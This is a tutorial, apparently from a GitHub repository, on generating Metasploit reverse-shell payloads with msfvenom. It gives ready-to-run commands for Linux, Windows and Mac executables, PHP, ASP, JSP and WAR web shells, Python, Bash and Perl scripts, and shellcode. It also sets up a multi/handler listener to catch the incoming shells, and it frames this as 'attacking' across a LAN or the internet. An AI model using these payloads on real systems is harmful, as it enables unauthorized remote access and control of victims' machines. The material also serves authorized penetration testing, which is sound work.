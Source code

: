 ## How to Generate a Payload for Metasploit

![thumbnail](https://raw.githubusercontent.com/neoslab/tutorials/master/thumbnails/bcc450b81865a427047ecec5f9e07c42-1920x1080.jpg "Thumbnail")

The most useful and to the beginner underrated abilities of **Metasploit** is the **msfpayload** module. Multiple payloads can be created with this module and it can provide you a shell in almost any situation.

For each of these payloads, you can go into **msfconsole** and select "`exploit/multi/handler`". Run "`set payload`" for the relevant payload used and configure all necessary options (LHOST, LPORT, etc.).

For the examples below its pretty self explanatory but **LHOST** should be filled in with your IP address which must be your **LAN IP** if attacking within the network or **WAN IP** if attacking across the internet along with **LPORT** which must be the port you wish to be connected back on.

* * *

###### 1. LIST AVAILABLE PAYLOADS

```bash
msfvenom -l
```

* * *

###### 2. BINARIES PAYLOADS

**2.1 Linux**

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST="YOUR-IP-ADDRESS" LPORT="YOUR-LOCAL-PORT" -f elf > shell.elf
```

**2.2 Windows**

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST="YOUR-IP-ADDRESS" LPORT="YOUR-LOCAL-PORT" -f exe > shell.exe
```

**2.3 Mac**

```bash
msfvenom -p osx/x86/shell_reverse_tcp LHOST="YOUR-IP-ADDRESS" LPORT="YOUR-LOCAL-PORT" -f macho > shell.macho
```

* * *

###### 3. WEB PAYLOADS

**3.1 PHP**

```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST="YOUR-IP-ADDRESS" LPORT="YOUR-LOCAL-PORT" -e php/base64 R > shell.php
```

Since the file has been encoded using base64, do not forget to open it using your favorite text editor and add "`<?php`" at the top and "`?>`" at the end.

**3.2 ASP**

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST="YOUR-IP-ADDRESS" LPORT="YOUR-LOCAL-PORT" -f asp > shell.asp
```

**3.3 JSP**

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST="YOUR-IP-ADDRESS" LPORT="YOUR-LOCAL-PORT" -f raw > shell.jsp
```

**3.4 WAR**

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST="YOUR-IP-ADDRESS" LPORT="YOUR-LOCAL-PORT" -f war > shell.war
```

* * *

###### 4. SCRIPTING PAYLOADS

**4.1 Python**

```bash
msfvenom -p cmd/unix/reverse_python LHOST="YOUR-IP-ADDRESS" LPORT="YOUR-LOCAL-PORT" -f raw > shell.py
```

**4.2 Bash**

```bash
msfvenom -p cmd/unix/reverse_bash LHOST="YOUR-IP-ADDRESS" LPORT="YOUR-LOCAL-PORT" -f raw > shell.sh
```

**4.3 Perl**

```bash
msfvenom -p cmd/unix/reverse_perl LHOST="YOUR-IP-ADDRESS" LPORT="YOUR-LOCAL-PORT" -f raw > shell.pl
```

* * *

###### 5. SHELLCODE PAYLOADS

For all shellcode see "`msfvenom --help-formats`" for information as to valid parameters. Msfvenom will output code that can be cut and pasted in this language for your exploits.

**5.1 Linux Based Shellcode**

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST="YOUR-IP-ADDRESS" LPORT="YOUR-LOCAL-PORT" -f "LANGUAGE"
```

**5.2 Windows Based Shellcode**

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST="YOUR-IP-ADDRESS" LPORT="YOUR-LOCAL-PORT" -f "LANGUAGE"
```

**5.3 Mac Based Shellcode**

```bash
msfvenom -p osx/x86/shell_reverse_tcp LHOST="YOUR-IP-ADDRESS" LPORT="YOUR-LOCAL-PORT" -f "LANGUAGE"
```

* * *

###### 6. CREATE HANDLERS

Metasploit handlers can be great at quickly setting up Metasploit to be in a position to receive your incoming shells. Handlers should be in the following format.

```bash
msfconsole
msf > use exploit/multi/handler
msf exploit(multi/handler) > set LHOST "YOUR-IP-ADDRESS"
msf exploit(multi/handler) > set LHOST "YOUR-LOCAL-PORT"
msf exploit(multi/handler) > set PAYLOAD "/path/to/the/payload"
msf exploit(multi/handler) > set ExitOnSession false
msf exploit(multi/handler) > exploit -j -z
```

* * *

###### 7. LOAD CUSTOM PAYLOADS

Metasploit allows you to generate Payload and use it during an attack. To use this function, simply generate your Payload before to run your attack and once you are done, use "`payload/generic/custom`" to specify the Payload to use.

```bash
msfconsole
msf > use payload/generic/custom
msf payload(custom) > show options
msf payload(custom) > set PAYLOADFILE "/path/to/the/payload"
msf payload(custom) > set PAYLOADSTR "the_payload_string_to_use"
```
